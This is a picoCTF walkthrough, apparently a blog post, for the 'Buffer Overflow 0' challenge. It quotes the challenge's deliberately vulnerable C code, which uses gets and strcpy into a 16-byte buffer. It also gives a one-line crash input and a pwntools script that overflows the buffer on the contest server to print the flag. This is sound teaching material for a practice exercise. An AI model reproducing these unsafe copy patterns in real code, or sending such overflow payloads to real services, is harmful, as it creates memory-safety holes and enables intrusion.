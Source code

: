 
# Exploiting Buffer Overflow 0 Step-by-Step | picoCTF Walkthrough


## Challenge Overview

**Challenge Name**: Buffer Overflow 0
**Category**: Binary Exploitation
**What We Get:**
A compiled binary (`vuln`)
The source code (`vuln.c`)


![Image description](assets/buffer-overflow-0.png)

## Understanding the Challenge
The challenge gives us a binary file (`vuln`) and its source code (`vuln.c`). The goal is to exploit a buffer overflow vulnerability to change a variable's value and make the program reveal the flag. Sounds fun, right? Let's get started!

## Understanding the Code
First, let's take a look at the source code to see what we're dealing with:

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}

```

## What’s Happening Here?

**1. Buffer Overflow Vulnerability:**
The vuln function has a buffer (`buf2`) that’s only 16 bytes long. The program uses `strcpy` to copy user input into this buffer, but it doesn’t check the length of the input. This means if we give it more than 16 bytes, we can overwrite other parts of memory!

**2. Signal Handler:**
If a segmentation fault occurs (e.g., due to a buffer overflow), the `sigsegv_handler` function is triggered, which prints the flag.

**3. User Input:**
The main function reads user input using `gets`, which is notoriously unsafe because it doesn’t limit the amount of input. This input is then passed to the `vuln` function.

**4. Key Takeaways:**
The program reads the flag from `flag.txt` and stores it in a global variable flag.
The `gets(buf1)`; function is used, which is dangerous because it doesn’t check input length.
The function `vuln()` uses `strcpy(buf2, input);`, which can lead to buffer overflow since `buf2` is only 16 bytes long.
If we trigger a segmentation fault `(SIGSEGV)`, the handler will print the flag!

## Exploitation Plan
To solve this challenge, we need to:

1. **Overflow the Buffer:** Send more than 16 bytes of input to cause a buffer overflow.

2. **Trigger a Segmentation Fault:** The overflow will cause the program to crash, triggering the `sigsegv_handler` and printing the flag.

We can use the given binary and provide an oversized input to trigger a segmentation fault and leak the flag:

```python
python3 -c 'print("A" * 32)' | ./vuln
```

Or we can use the given remote server as below as well.

## Step 1: Creating the Payload
We need to send an input that:

- Fills the 16-byte buffer in the `vuln` function.

- Overflows the buffer to cause a segmentation fault.

In Python, we can create this payload like this:

```python
payload = b"A" * 32  # More than enough to overflow the buffer
```

## Here’s what’s happening:

`b"A" * 32:` Sends 32 bytes of the letter `A`. This is way more than the 16 bytes the buffer can hold, so it will overflow and cause a crash.

## Step 2: Send the Payload
We’ll use a Python script to send our payload to the remote server. Here’s the script:

```python
from pwn import *

# Connect to the challenge server
conn = remote('saturn.picoctf.net', 51086)

# Creating the payload
payload = b"A" * 32

# Send the payload
conn.sendline(payload)

# Receive the flag
print(conn.recvall().decode())

```

## What’s This Script Doing?

1. Connecting to the Server:
The `remote` function connects to the challenge `server at saturn.picoctf.net` on port `51086`.

2. Sending the Payload:
The `sendline` function sends our crafted payload to the server.

3. Receiving the Flag:
The `recvall` function grabs the server’s response, which should include the flag.

## Step 3: Run the Script

Save the script as `exploit.py` and run it:

```python
python3 exploit.py
```

If everything works correctly, you’ll see the flag printed on your screen! 🎉

## What Happened?
When we send more than 16 bytes of input, the extra data overflows the `buf2` buffer and corrupts the program’s memory. This causes a segmentation fault, which triggers the `sigsegv_handler` function. The handler then prints the flag for us.

## Final Thoughts
This challenge is a great way to learn about buffer overflows and how they can be exploited to manipulate a program’s behavior. By causing a crash, we can trigger a signal handler that reveals the flag. Once you understand the basics, you can tackle more advanced challenges!

Flag: `picoCTF{...}` (You’ll see the actual flag when you run the exploit!)

Happy hacking! 😄 If you have any questions or run into issues, feel free to ask. Good luck with the rest of picoCTF! 🚀






